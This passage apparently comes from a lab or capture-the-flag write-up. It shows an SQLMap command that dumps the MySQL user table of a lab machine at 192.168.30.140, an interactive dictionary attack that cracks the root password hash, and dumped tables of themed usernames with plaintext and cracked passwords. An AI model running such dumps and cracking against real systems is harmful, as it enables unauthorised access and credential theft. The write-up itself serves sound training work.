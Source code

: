 {% highlight bash %}

Database: Webapp
Table: Users
[5 entries]
+----+----------+------------------+
| id | username | password         |
+----+----------+------------------+
| 1  | frodo    | iwilltakethering |
| 2  | smeagol  | MyPreciousR00t   |
| 3  | aragorn  | AndMySword       |
| 4  | legolas  | AndMyBow         |
| 5  | gimli    | AndMyAxe         |
+----+----------+------------------+
{% endhighlight %} 

### SQLMap Dump MySQL DB and crack hashes 

{% highlight bash %}
sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms -D mysql -T
user -C User,Password --dump
{% endhighlight %} 

#### SQLMap hash cracking options 

{% highlight bash %}
do you want to store hashes to a temporary file for eventual further processing
with other tools [y/N] y
[05:03:45] [INFO] writing hashes to a temporary file
'/tmp/sqlmapLg7tgv31954/sqlmaphashes-s2BIJH.txt' 
do you want to crack them via a dictionary-based attack? [y/N/q] y
[05:04:28] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 
[05:04:38] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] y
[05:04:43] [INFO] starting dictionary-based cracking (mysql_passwd)
[05:04:43] [INFO] starting 4 processes 
[05:04:46] [INFO] cracked password 'darkshadow' for hash
'*4dd56158acdba81bfe3ff9d3d7375231596ce10f' 
{% endhighlight %}

{% highlight bash %}
Database: mysql
Table: user
[5 entries]
+------------------+--------------------------------------------------------+
| User             | Password                                               |
+------------------+--------------------------------------------------------+
| debian-sys-maint | *A55A9B9049F69BC2768C9284615361DFBD580B34              |
| root             | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |
| root             | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |
| root             | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |
| root             | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |